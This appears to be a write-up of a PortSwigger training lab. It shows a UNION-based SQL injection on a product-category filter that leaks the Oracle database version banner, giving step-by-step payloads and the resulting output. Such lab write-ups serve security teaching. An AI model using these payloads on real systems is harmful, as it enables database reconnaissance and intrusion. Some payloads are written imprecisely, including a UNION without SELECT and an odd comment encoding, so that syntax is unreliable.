 # SQL injection attack, querying the database type and version on Oracle

![Lab banner – PortSwigger Practitioner level](1.png)

---

## Executive Summary

In the PortSwigger Web Security Academy lab “SQL injection attack: querying the database type and version (Oracle),” we demonstrated that an attacker can leak detailed version strings of the underlying Oracle Database by appending a crafted `UNION SELECT` clause to a product-search request.
Because the application simply tacks raw query-string text onto its `WHERE` clause, we were able to join the results of `V$VERSION` to the normal product list and have the database hand back its own build information.

---

## Description

![Lab banner – PortSwigger Practitioner level](2.png)

## Why This Matters to You

* **Targeted exploitation:** Exact version numbers allow attackers to map your database against public CVEs and selectively fire exploits that are known to work.
* **Defence evasion:** Knowledge of edition and patch level helps adversaries predict which auditing or security features are enabled.

---

## Step-by-Step Walk-Through

| # | What we did (payload shown URL-encoded when required)                                                               | Intended SQL generated by the app                                                          | What actually happens & why                                                                                                                              |
| - | ------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1 | **Confirmed vulnerability**<br>Baseline request: `/filter?category=Gifts`                                            | `SELECT * FROM someTable WHERE category='Gifts'`                                            | Normal list of “Gifts” products returned.                                                                                                                 |
| 2 | **Counted columns** with `ORDER BY` (or `UNION NULL,NULL`) – found **2 columns**.                                   | —                                                                                          | Knowing column count is essential for a valid `UNION`.                                                                                                   |
| 3 | **Found text-compatible columns** by injecting `UNION 'a','b'` – discovered both columns accept strings.            | —                                                                                          | Confirms which positions can display arbitrary text.                                                                                                     |
| 4 | **Queried Oracle version** with<br>`/filter?category=Gifts'/**%20**UNION%20SELECT%20'a',banner%20FROM%20v$version--` | `SELECT * FROM someTable WHERE category='Gifts' UNION SELECT 'a', banner FROM v$version--'` | The second column now prints the full Oracle banner (e.g., `Oracle Database 19c Enterprise Edition Release 19.0.0.0.0 - Production`). Lab flags success. |

---

![Lab banner – PortSwigger Practitioner level](3.png)
> Queried Oracle version

---

## Observable Output

| Test / Payload                             | Visible result                                   | What it proved                          |
| ------------------------------------------ | ------------------------------------------------ | --------------------------------------- |
| Baseline (`category=Gifts`)                 | Normal product grid                              | Application behaves as intended.        |
| `UNION 'a','b'`                            | Page prints “a  b”                               | Column count & text placement verified. |
| `UNION SELECT 'a',banner FROM v$version--` | Oracle version banner strings appear on the page | **Database disclosure** confirmed.      |

---

![Lab banner – PortSwigger Practitioner level](4.png)
> The complete Oracle banner output
---

## Conclusion

By chaining basic UNION-based SQL injection techniques we extracted the exact Oracle build string—information invaluable to any attacker planning further compromise. 
